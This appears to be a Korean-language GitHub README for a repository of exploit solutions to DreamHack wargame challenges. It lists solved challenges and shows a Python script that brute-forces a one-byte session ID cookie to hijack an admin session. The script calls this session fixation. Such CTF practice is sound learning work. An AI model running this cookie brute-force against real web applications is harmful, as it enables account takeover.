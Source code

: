 # DreamHack Code :computer:
DreamHack 문제들을 해결한 exploit 코드들이 있습니다.
(Python 위주)


## 문제 목록 :unlock:
- [X] Mango
- [X] Counting_query
- [X] proxy-1
- [X] session
- [X] stream
- [X] web-ssrf
- [X] rev-basic-4 
- [X] rev-basic-6


## 예시 코드 :clipboard:
```python
import requests

target_url = 'localhost_input'  # 타겟 서버 주소를 여기에 입력

def session_fixation_attack():
    for i in range(256):
        session_id = bytes([i]).hex()

        cookies = {'sessionid': session_id}

        response = requests.get(target_url, cookies=cookies)

        if 'Hello' in response.text:
            print(f'Success! Found admin session ID: {session_id}')
            break
        else:
            print(f'Tried session ID: {session_id}, but not admin.')

session_fixation_attack()
```